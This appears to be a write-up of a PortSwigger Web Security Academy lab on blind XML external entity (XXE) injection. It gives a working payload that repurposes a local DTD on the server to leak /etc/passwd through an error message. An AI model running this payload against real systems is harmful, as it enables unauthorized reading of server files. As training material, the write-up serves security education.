# Exploiting XXE to retrieve data by repurposing a local DTD

## Description

[This lab](https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd) has a "Check stock" feature that parses XML input but does not display the result.

## Reproduction and proof of concept

1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Insert the following parameter entity definition in between the XML declaration and the `stockCheck` element:

```text
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

This will import the Yelp DTD, then redefine the ISOamso entity, triggering an error message containing the contents of the `/etc/passwd` file.

## Exploitability

An attacker will need to reference an existing DTD file on the server and redefine an entity from it to trigger an error message containing the contents of the `/etc/passwd` file.
